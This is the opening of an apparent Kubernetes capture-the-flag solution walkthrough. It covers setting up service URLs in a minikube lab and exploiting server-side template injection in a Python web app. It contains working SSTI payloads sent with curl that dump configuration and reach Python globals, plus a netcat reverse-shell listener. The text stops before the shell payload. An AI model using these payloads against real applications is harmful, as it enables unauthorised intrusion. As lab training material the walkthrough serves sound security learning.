 # Kubernetes CTF - Complete Solution Walkthrough

This document provides a detailed walkthrough of all attack phases and techniques.

## Prerequisites

Set up your attack environment:

```bash
# Get service URLs
export PYTHON_URL=$(minikube service python-web -n production --url)
export CSHARP_URL=$(minikube service csharp-web -n production --url)

# Set up listener for reverse shells
nc -lvnp 4444
```

---

## Phase 1: Initial Access

### Option A: Python Web App - SSTI Exploitation

**Step 1: Identify the Vulnerability**

Visit the Python web app and test the template rendering functionality:

```bash
curl "$PYTHON_URL/render?template=Hello&name=World"
```

Test for SSTI:

```bash
curl "$PYTHON_URL/render?template={{7*7}}&name=test"
# If you see "49", SSTI is confirmed
```

**Step 2: Enumerate the Environment**

Extract configuration information:

```bash
# Read config
curl "$PYTHON_URL/render?template={{config}}&name=test"

# Access OS module
curl "$PYTHON_URL/render?template={{config.__class__.__init__.__globals__}}&name=test"
```

**Step 3: Establish Reverse Shell**

On your attack machine, start a listener:

```bash
nc -lvnp 4444
```
